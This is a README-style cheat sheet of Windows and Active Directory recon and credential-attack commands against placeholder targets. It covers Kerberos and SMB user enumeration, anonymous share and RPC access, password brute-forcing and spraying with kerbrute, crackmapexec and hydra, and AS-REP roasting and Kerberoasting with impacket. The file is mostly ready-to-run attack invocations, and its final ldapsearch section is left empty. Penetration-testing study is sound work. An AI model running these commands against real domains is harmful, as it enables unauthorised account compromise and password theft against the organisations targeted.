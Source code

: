 ## Commands and Techniques to do recon on windows hosts 

note1: some of these techniques generate lot of noise so use them sparingly.

note2: some of these techniques depends of the ports are open in the host.

1 - [nmap](https://github.com/geleiaa/winRecon_outside/edit/main/README.md#1---nmap)

10 - [ldapsearch](https://github.com/geleiaa/winRecon_outside/edit/main/README.md#10---ldapsearch)


### 1 - nmap

* ``` $ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=’<domain>’,userdb=usernames <IP> ```

* ``` $ nmap -vv -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=ad,dc=domain"' <IP> ```

* ``` $ nmap -vv -p 1433 --script ms-sql-brute --script-args userdb=usernames,passdb=wordlist.txt <IP> ```

### 2 - SMB

* enum shares with crackmapexec 
* ``` $ crackmapexec smb <IP> -u "guest" -p "" --shares ```

* valid user shares enum
* ``` $ crackmapexec smb <IP> -u "name" -p "pass" --shares ```

* enum shares with smbclient
* ``` $ smbclient -N -L //<IP>/ ```

* connect to shares
* ``` $ smbclient //<IP>/<SHARE> -U anonymous ``` 

* enum shares with smbmap 
* ``` $ smbmap -u null -p "" -H <IP> ```


### 3 - enum4linux

* ``` $ enum4linux -U -o <IP> (enum users and O.S) ```   

* ``` $ enum4linux -A <IP> (agressive mode) ```


### 4 - enum with rpcclient 

* empty user connection 
* ``` $ rpcclient <IP> -U "" -N ```

* valid user connection
* ``` $ rpcclient -U "name" <IP> ```


### 5 - metasploit

* ``` msf > use Auxiliary/gather/Kerberos_enumusers ```


### 6 - Kerbrute

* Enum user
* ``` $ ./kerbrute userenum --dc <IP>  -d ad.domain usernames.txt ```

* Passwors brute
* ``` $ ./kerbrute bruteuser -d ad.domain --dc <IP> wordlist.txt username ```  

* Password spray
* ``` $ ./kerbrute passwordspray -d ad.domain --dc <IP> usernames.txt Password123 ```


### 7 - Impacket scripts

#### If you have a list of valid users...
* [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast) 
* ``` $ impacket-GetNPUsers -dc-ip <IP> <ad.domain/> -no-pass -usersfile <userslist> -format john ```


#### If you have valid creds...
* [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)
* ``` $ impacket-GetUserSPN  -dc-ip <IP> <ad.domain>/<user>:<pass> -request ```


### 8 crackmapexec

* Enumerate users by bruteforcing the RID
* ``` $ crackmapexec smb <IP> -u "anonymous" -p "" --rid-brute ```

* Password brute
* ``` $ crackmapexec ldap <IP> -u <username or userlist> -p wordlist.txt ```

* asreproast
* ``` $ crackmapexec ldap <IP> -u users.txt -p '' --asreproast output.txt ```


### 9 - Hydra

* Password brute
* ``` $ hydra -v -l username -P wordlist.txt <IP> ldap2 ```

### 10 - ldapsearch

...
